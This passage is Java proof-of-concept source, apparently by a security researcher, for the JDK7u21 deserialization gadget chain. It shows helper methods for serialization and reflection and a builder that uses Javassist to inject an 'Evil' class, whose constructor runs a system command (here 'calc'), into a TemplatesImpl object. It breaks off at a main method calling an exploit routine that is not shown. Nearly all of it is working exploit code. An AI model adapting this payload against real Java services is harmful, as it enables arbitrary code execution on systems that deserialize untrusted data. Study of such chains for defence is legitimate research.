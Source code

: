 ```java
package org.h3rmesk1t.JDK7u21;


import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.*;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.util.*;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/10 8:16 下午
 */
public class Poc {
    //序列化
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    //反序列化
    public static Object unserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }

    //通过反射为obj的属性赋值
    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    //封装了之前对恶意TemplatesImpl类的构造
    private static TemplatesImpl getEvilTemplatesImpl() throws Exception {
        ClassPool pool = ClassPool.getDefault();//ClassPool对象是一个表示class文件的CtClass对象的容器
        CtClass cc = pool.makeClass("Evil");//创建Evil类
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));//设置Evil类的父类为AbstractTranslet
        CtConstructor cons = new CtConstructor(new CtClass[]{}, cc);//创建无参构造函数
        cons.setBody("{ Runtime.getRuntime().exec(\"calc\"); }");//设置无参构造函数体
        cc.addConstructor(cons);
        byte[] byteCode = cc.toBytecode();//toBytecode得到Evil类的字节码
        byte[][] targetByteCode = new byte[][]{byteCode};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCode);
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_name", "xx");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }

    public static void main(String[] args) throws Exception {
        expHashSet();
//        expLinkedHashSet();
    }
```
